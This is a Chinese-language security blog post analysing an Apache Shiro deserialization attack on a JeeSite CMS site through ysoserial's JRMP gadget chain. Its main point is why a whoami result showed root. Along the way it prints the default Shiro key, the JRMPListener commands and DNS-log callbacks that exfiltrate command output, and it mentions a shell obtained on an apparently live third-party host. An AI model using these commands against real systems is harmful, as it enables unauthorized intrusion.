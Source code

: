 ```yaml
---
layout: about
category: about
Researchname: JRMP-Gadget
toc: true
permalink: /about/JRMP-Gadget/
author: Bin4xin
desc: 「其他研究」
---
```


# Shiro框架深入利用：JRMP-Gadget利用链浅析

> PartI: Stay Hungry, Stay Foolish. 
> 
> PartII: 学的越多，不懂得也就越多。

**2021年 6月30日 星期三 15时30分40秒 CST* 前不久，Fofa安全工程师某信正在愉快的网上冲浪，不一会群里丢出了一个惹眼的链接吸引了某信的注意。

- 链接格式：`http://{ip.addr}:{ip.port}/a/login`

**芽儿～当时我整个人的是这样的：**
<div class="col-lg-2">
<img align="left" src="https://image.yjs2635.xyz/images/2022/02/20/iLHbaIctkf9GWpO.jpg"/>
</div>

<div>
因为这个链接实在是太熟悉了，浏览器访问，果然直接跳转：<br>
<code>/a/login;JSESSIONID=···</code><br>
和具有辨识度的Cookie：<code>jeesite.session.id</code><br>
<br>
一切都是这么的自然，我可真是太神气了。
</div>

梳理一下：

- Shiro 框架
- Jeesite CMS
	- 已知路由 `/a/、/f/`...

所以这个站就可以直接从Shiro入手来看，老三样：跑密钥 -> 利用链 -> Dnslog

不过跑密钥出了个小插曲，登录路由login处设置`rememberMe Cookie`时反包*Set-Cookie*不显示*deleteMe Cookie*，具体原因待更新：[*Different Shiro Framework deserialization analysis ideas*](/about/ShiroDeser/){:target="_blank"}，而从上面的特征我们已经可以肯定存在Shiro框架，当然也可以通过对不存在的路由进行Cookie设置来进行验证。

![5oPJbQEhrz34X8d.png](https://image.yjs2635.xyz/images/2022/02/20/5oPJbQEhrz34X8d.png)

由于上面的原因导致有一些匹配回包来检测shiro框架为逻辑工具就在原地划水不动弹，不慌，总有一些“尖子生”，跑出默认密钥：`kPH+bIxk5D2deZiIxcaaaA==`

紧接着：
```bash
[*] find: JRMPClient can be use
0: JRMPClient
```

- ysoserial.jar公网起JRMP端口，转发命令<code>ping `whoami`.x.dnslog.cn</code>
- JRMP监听显示流量建立链接，查看dnslog：

![5EVuHQXA3doCfcJ.png](https://image.yjs2635.xyz/images/2022/02/20/5EVuHQXA3doCfcJ.png)


`默认加密密钥 -> JRMPClient利用链 -> Shiro反序列化RCE root` 多么赏心悦目，一切都是那么地丝滑。
<div class="col-lg-3">
	<img  src="https://image.yjs2635.xyz/images/2022/02/20/IxPRmipAQ4JfBjH.jpg"/>
</div>
<div>
	<div class="col-lg-8">
		<strong>然而却帅不过三秒：</strong>
		<img  src="https://image.yjs2635.xyz/images/2022/02/20/rEDCbQHuTF3XY5K.png"/>
	</div>
</div>
<br><br><br>
<br><br><br>
<br><br>

## 提出问题

其实在这次渗透的过程中，我对于两个地方存疑：

- 第一个问题是开发向：就是Shiro框架识别阶段，`/a/login`路由配置Shiro对应Cookie后没有返回对应的Set-Cookie，如何实现的？同时我这里查了一些资料供参考
	- [Apache Shiro反序列化识别那些事](https://www.hetianlab.com/specialized/20200612143432){:target="_blank"}

- 第二个问题是JRMP Gadget利用阶段，为什么Dnslog记录显示为root，而现实情况下反弹的shell权限则是低权限？

### # 为什么不是root?

![LAM9NcPdRUYWa16.png](https://image.yjs2635.xyz/images/2022/02/20/LAM9NcPdRUYWa16.png)

如上图，整张图是我个人对于Java反序列化中对于JRMP利用链的过程理解，从`local Attacker`环节开始，具体细节在这里不做展开叙述，其中存在歧义的地方我使用红色部分进行了标记；个人分析存在的问题也是红色部分：

> `VPS - JRMP`阶段在服务器启动的时候命令为：
>
> ><code>java -cp ysoserial.jar ysoserial.exploit.JRMPListener 3333 CommonsCollections5 "ping `whoami`.x.dnslog.cn"</code>
> >
> >对应的：
> >`ysoserial.exploit.JRMPListener`利用类、`3333`本地JRMP监听端口、`CommonsCollections5`Java反序列化利用链以及转发<code>"ping `whoami`.x.dnslog.cn"</code>命令

再来看另外一张图片：

![me6CANHghjYIOkR.jpg](https://image.yjs2635.xyz/images/2022/02/20/me6CANHghjYIOkR.jpg)

我们看上面这一张图，重点在于`ping root.zj6u6s.dnslog.cn`进程对应的用户同样是低权限用户，也就是说是低权限的用户去运行的<code>`whoami`</code>这个命令而且输出的是`root`，但是从Linux权限的常识来看是不会出现这样的情况的。所以有了以下设想：

- 我初步的设想是：**假设1:命令是在受害机器上执行**，那么有几种情况：
	- 1.1:会不会因为该用户是sudo用户才导致返回的dns记录为root？
	- 1.2:~~启动Tomcat服务的为root用户？~~（通过`ps -ef`可以直接排除，而且细想，若Tomcat用户为root，那么肯定反弹的用户也为root）

所以我针对1.1假设进行了实验进行正确型验证：
```bash
➜ bin4xin sudo -l

User bin4xin may run the following commands on bin4xin's MacbookPro:
    (ALL) ALL

➜ bin4xin (sudo) ping `whoami`.31veg3.dnslog.cn
PING bin4xin.31veg3.dnslog.cn (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.087 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.163 ms
```
我们可以通过上面的bash信息和下面的dnslog信息返回看到，与sudo用户无关
```bash
#是否添加sudo返回都如下：
#dnslog返回记录
bin4xin.31veg3.dnslog.cn	61.132.161.4	2021-07-05 13:44:34
bin4xin.31veg3.dnslog.cn	61.132.161.6	2021-07-05 13:44:34
```
所以这种假设我们就直接排除了；

- 第二种设想 **假设2:命令是在VPS机器上执行**，就是JRMP利用过程链那张图中红色的那一部分，我想：<code>"ping `whoami`.x.dnslog.cn"命令</code>转发前本地机器是否已经执行了`whoami`所以导致了受害机器执行的是root开头的命令呢？
	- 那么如果通过这种假设，过程就是：`JRMP Server Listen: *0.0.0.0:3333` -> 本地机器执行<code>`whoami`</code>
	- 受害机器访问JRMP Server，执行`ping root.x.dnslog.cn`。

这种情况下来看，实际上也能够说通，而实际上也正是如此，本来打算是在本地跑个Shiro走一整个流程的，但是直到我发现了这个：
```bash
➜ bin4xin java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 "ping `whoami`.6iep0z.dnslog.cn"
* Opening JRMP listener on 8888

#ysoserial.exploit.JRMPListener利用类监听状态下：
➜ bin4xin ps -ef|grep ping

  501  6895  6696   0  2:37下午 ttys004    0:00.54 java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn
```
看到`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections3 ping bin4xin.6iep0z.dnslog.cn`进程一切已然清晰；

至此，本章核心阐述完毕。以上
